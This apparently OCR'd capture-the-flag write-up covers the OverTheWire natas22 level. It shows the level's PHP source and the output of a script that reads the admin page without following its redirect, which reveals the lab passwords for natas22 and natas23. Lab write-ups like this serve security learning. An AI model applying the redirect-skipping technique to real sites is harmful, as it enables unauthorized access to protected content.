  ```
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
  <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
  <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
  <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
  <script>var wechallinfo = { "level": "natas22", "pass": "<censored>" };</script></head>
  <body>
  <h1>natas22</h1>
  <div id="content">
  
  <?php
      if(array_key_exists("revelio", $_GET)) {
      print "You are an admin. The credentials for the next level are:<br>";
      print "<pre>Username: natas23\n";
      print "Password: <censored></pre>";
      }
  ?>
  
  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```

- You have to access `?revelio=1` endpoint, but when you visit that endpoint you will be redirected. So, I wrote a script that just hit that endpoint and get the response from the server.

  ```
  $ python3 natas22.py          
  302
  /
  
  
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
  <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
  <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
  <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
  <script>var wechallinfo = { "level": "natas22", "pass": "d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz" };</script></head>
  <body>
  <h1>natas22</h1>
  <div id="content">
  You are an admin. The credentials for the next level are:<br><pre>Username: natas23
  Password: dIUQcI3uSus1JEOSSWRAEXBG8KbR8tRs</pre>
  <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
  </div>
  </body>
  </html>
  ```
